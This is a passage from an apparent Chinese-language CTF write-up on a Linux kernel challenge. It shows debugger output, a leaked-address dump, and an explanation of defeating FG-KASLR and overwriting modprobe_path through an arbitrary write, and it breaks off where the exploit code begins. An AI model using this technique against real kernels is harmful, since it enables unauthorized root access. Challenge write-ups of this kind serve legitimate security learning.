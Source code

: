 ```c
   0xffffffffbb0d0ef5:	lea    rdi,[rbp-0x98]
   0xffffffffbb0d0efc:	call   0xffffffffbb162bc0
   0xffffffffbb0d0f01:	mov    r12d,eax
   0xffffffffbb0d0f04:	test   eax,eax
   0xffffffffbb0d0f06:	je     0xffffffffbb0d0f2d
   0xffffffffbb0d0f08:	mov    rax,QWORD PTR [rbp-0x60]
pwndbg> x/s 0xffffffffbb848460
0xffffffffbb848460:	"/sbin/modprobe"
pwndbg> x 0xffffffffbb848460-0xffffffffba60007c
0x12483e4:	<error: Cannot access memory at address 0x12483e4>
```

通过越界读漏洞，多次尝试可以找到一个最后三位不发生改变的地址

> [+] Leak address: 
> 0x593775c028a700
> 0x1
> 0x0
> 0xffffffff9fa97598
> 0xffff9204bc4ba400
> 0xffff9204bc4ba400
> 0x4c54a0
> 0x300
> 0x0
> 0x0
> 0xffffffff9ff6810a
> 0x0
> 0x593775c028a700
> 0x0
> 0xffffa00980197f58
> 0x0
> 0x0
> 0xffffffffa032acb3
> 0x0
> 0x0
> **0xffffffff9f80007c**
> 0x0

通过0xffffffff9f80007c可以计算内核基地址，之后计算出modprobe_path的地址，通过溢出漏洞任意地址写修改modprobe_path字符串即可

对于这种开启fg_kaslr的题目而言似乎只能在每次运行的时候通过gdb的x指令找到各个函数的偏移，再加上`lsmod`获得的基地址得到函数的真实地址来下断点调试，，，除此之外没有想更好的调试方法了（希望看到本文且有更好的方法的师傅留言带带弟弟）

另外需要注意的是伪造的modprobe_path脚本文件需要以"#!/bin/sh"开头

exp：

```c
#include <stdio.h> 

#include <pthread.h> 

#include <unistd.h> 

#include <stdlib.h> 

#include <sys/ioctl.h> 

#include <sys/types.h> 

#include <sys/stat.h> 

#include <sys/wait.h>

#include <fcntl.h> 

```